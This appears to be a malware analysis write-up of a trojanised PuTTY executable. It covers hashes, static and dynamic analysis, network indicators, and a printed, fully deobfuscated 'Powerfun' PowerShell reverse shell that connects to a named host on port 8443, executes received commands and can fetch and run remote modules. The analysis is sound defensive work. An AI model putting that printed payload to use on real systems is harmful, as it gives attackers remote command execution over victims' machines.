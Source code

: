 ```yaml
---
title: Backdoor.ReverseShell.Putty.exe
description: Analyzing an infected putty executable
authors: konradwylde
tags:
  - malware
  - reversing
  - analysis
date: '2022-12-17'
draft: false
---
```



## Executive Summary
The analyzed sample is a reverse shell embedded inside a fully functional Putty client.

It consist of a single payload executed on initial detonation by a powershell.exe command that tries to connect to bonus2.corporatebonusapplication[.]local on port 8443

Symptoms of infection include DNS query to the same domain and a following TCP connection try.


## Malware Composition

|  File Name     |  SHA256 Hash  |
|----------------|---------------|
|  putty.exe  |  0c82e654c09c8fd9fdf4899718efa37670974c9eec5a8fc18a167f93cea6ee83  |


## VT Analysis
[VT Link](https://www.virustotal.com/gui/file/0c82e654c09c8fd9fdf4899718efa37670974c9eec5a8fc18a167f93cea6ee83/relations) (Detection score 59/72)  
  
No other significative results to be reported.


## Basic Static Analysis
### FLOSS interesting findings
![floss-ouput](images/floss.png)

### PEStudio findings
* found a suspicious section: `.00cfg`
* found a suspicious entry-point `.text:0x00122000`

Both findings need an advanced analysis.

### IAT interesting findings
* `ShellExecuteA` and some Windows Registry related imports (may be Putty normal functionality related - eg. saving an ssh key)


## Basic Dynamic Analysis
### Initial detonation
* upon detonation a blue Powershell window appears for a few seconds before the standard Putty window.

### Host-based indicators 
* a `Process Create` operation is executed after detonation, which confirms the Powershell command execution we found during the strings analysis.
![procmon1](images/procmon-1.png)

* the `process tree` can also confirm that putty.exe executed Powershell
![procmon2](images/procmon-2.png)
  
* by analysing any TCP operations we can notice that the Powershell command seems to be trying to establish a TCP connection to port `8443`
![procmon3](images/procmon-3.png)

### Network signatures
* found DNS queries to `bonus2.corporatebonusapplication[.]local`
![dns-queries](images/wireshark-dns.png)

* by setting up a listener on port `8443` and re-detonating the sample we can get a TCP connection (Wireshark reports a TLS `Client Hello`)
![netcat](images/netcat-1.png)
![tcp-connect](images/wireshark-tcp.png)


## Advanced Static Analysis
* by decoding the base64 string and decompressing it with gzip we finally get the deobfuscated payload
```POWERSHELL
# Powerfun - Written by Ben Turner & Dave Hardy

function Get-Webclient 
{
    $wc = New-Object -TypeName Net.WebClient
    $wc.UseDefaultCredentials = $true
    $wc.Proxy.Credentials = $wc.Credentials
    $wc
}
function powerfun 
{ 
    Param( 
    [String]$Command,
    [String]$Sslcon,
    [String]$Download
    ) 
    Process {
    $modules = @()  
    if ($Command -eq "bind")
    {
        $listener = [System.Net.Sockets.TcpListener]8443
        $listener.start()    
        $client = $listener.AcceptTcpClient()
    } 
    if ($Command -eq "reverse")
    {
        $client = New-Object System.Net.Sockets.TCPClient("bonus2.corporatebonusapplication.local",8443)
    }

    $stream = $client.GetStream()

    if ($Sslcon -eq "true") 
    {
        $sslStream = New-Object System.Net.Security.SslStream($stream,$false,({$True} -as [Net.Security.RemoteCertificateValidationCallback]))
        $sslStream.AuthenticateAsClient("bonus2.corporatebonusapplication.local") 
        $stream = $sslStream 
    }

    [byte[]]$bytes = 0..20000|%{0}
    $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
    $stream.Write($sendbytes,0,$sendbytes.Length)

    if ($Download -eq "true")
    {
        $sendbytes = ([text.encoding]::ASCII).GetBytes("[+] Loading modules.`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)
        ForEach ($module in $modules)
        {
            (Get-Webclient).DownloadString($module)|Invoke-Expression
        }
    }

    $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
    $stream.Write($sendbytes,0,$sendbytes.Length)

    while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
    {
        $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
        $data = $EncodedText.GetString($bytes,0, $i)
        $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )

        $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
        $x = ($error[0] | Out-String)
        $error.clear()
        $sendback2 = $sendback2 + $x

        $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
        $stream.Write($sendbyte,0,$sendbyte.Length)
        $stream.Flush()  
    }
    $client.Close()
    $listener.Stop()
    }
}

powerfun -Command reverse -Sslcon true
```


## Advanced Dynamic Analysis
Not needed.


## Any.run Analysis
* by searching the SHA256SUM on App.any.run we can find some tasks [(Link here)](https://app.any.run/tasks/0ee9dac1-f2e8-406d-a141-3f8e0be6a5af/) that can confirm the Powershell payload and the DNS query. No other findinds are reported. 
![anyrun1](images/anyrun-1.png)


## Indicators of Compromise (IOCs)
### Network Indicators
* Powershell command execution.
* TCP Connection on port `8443`

### Network Indicators
* DNS query: `bonus2.corporatebonusapplication[.]local`
* TCP connection on port `8443`


## Rules & Signatures
`Placeholder`